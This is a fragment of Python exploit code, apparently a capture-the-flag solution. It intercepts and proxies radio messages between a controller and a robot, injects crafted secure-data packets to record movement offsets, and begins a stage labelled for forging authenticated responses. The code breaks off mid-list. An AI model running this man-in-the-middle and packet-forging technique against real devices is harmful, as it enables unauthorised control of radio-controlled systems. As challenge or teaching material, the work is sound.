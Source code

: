 ```python
            stop = False
            for msg in messages:  
                if proxying and msg['dst'] == ME:
                    msg['dst'] = CONTROLLER     
                    print_pkt(msg)
                    inject_radio_message(msg)
                elif msg['dst'] == ROBOT:
                    print_pkt(msg)
                    
                # We drop all messages from the robot. This is just used as a anchor point so we know that it has validated properly
                if msg['msg_type'] == 'ack_key_exchange' and msg['dst'] == ROBOT:
                    proxying = False
                
                    # secure_data -> secure_data_request offsets the movement to south
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data', 0, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data_request', 1, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data', 2, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data_request', 3, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data', 4, CONTROLLER, None)
                    await asyncio.sleep(0.02)
                    await inject_packet('secure_data_request', 5, CONTROLLER, None)
                    
                    # this peforms the rest of the offset
                    await asyncio.sleep(0.02)
                    await offset(6, n, 'north')
                    
                    stop = True
                    break

            if stop:
                break 
        
        # await bogus_response()
        stop_robot()
        time.sleep(1.5)
        
asyncio.run(record_east())
asyncio.run(record_south())
asyncio.run(record_west())
asyncio.run(record_north())

stop_robot()
receive_radio_messages()
time.sleep(5)
### PART 3 -> SEND SECURE_DATA_REQUEST N - 1 TIMES, THEN SEND SECURE_DATA, THEN SEND SECURE_DATA_REQUEST, THEN RECORD SECURE_DATA_RESPONSE

# We can then forge responses!
### PART 4 -> FORGE
print('-' * 20 + 'Begin part 4')

nonce = 0

# targetpath = ["east", "south", "east", "north", "west", "south", "east", "north", "east", "south", "stop"]

target_path = [
```